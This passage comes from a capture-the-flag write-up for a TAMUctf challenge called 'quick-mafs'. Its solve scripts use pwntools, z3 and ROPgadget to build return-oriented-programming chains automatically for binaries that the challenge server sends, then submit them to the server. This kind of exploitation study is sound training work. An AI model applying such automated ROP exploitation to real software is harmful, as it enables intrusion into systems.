 ```py
    # And we're done!
    return chain
```

After modifying the template code to use this procedure, running the code and waiting for a bit, we soon end up with the flag!

### Solve Scripts
```py
# script.py
from pwn import *
import re
from solve import solve

context.log_level = 'debug'

def pwn():
    p = remote("tamuctf.com", 443, ssl=True, sni="quick-mafs")

    for _ in range(5):
        instructions = p.recvline() # the server will give you instructions as to what your exploit should do
        bites = p.recvline().rstrip()

        # Error (wrong answer, or connection was closed).
        if bites.startswith(b'sorry') or bites.startswith(b'Traceback'):
            break

        # Save bytes to a file.
        with open("elf", "wb") as file:
            file.write(bytes.fromhex(bites.decode()))

        print(f'{instructions=}')

        # Parse input and get target value.
        m = re.search(r'call print\(\) with rax = 0x([0-9a-f]+)', instructions.decode())
        target = int(m.group(1), 16)
        print(f'{target=:#x}')

        payload = solve(target, gadget_limit=20)
        p.sendline(payload.hex().encode())

    p.interactive()

try:
    pwn()
except EOFError:
    pass
```

```py
# solve.py
from pwn import *
import re
from z3 import *
from functools import reduce

from ropgadget.args import Args as ropargs
from ropgadget.core import Core as ropcore


def is_good_gadget(g):
    return g['gadget'].startswith('lea rbx') and g['gadget'].endswith('ret')

```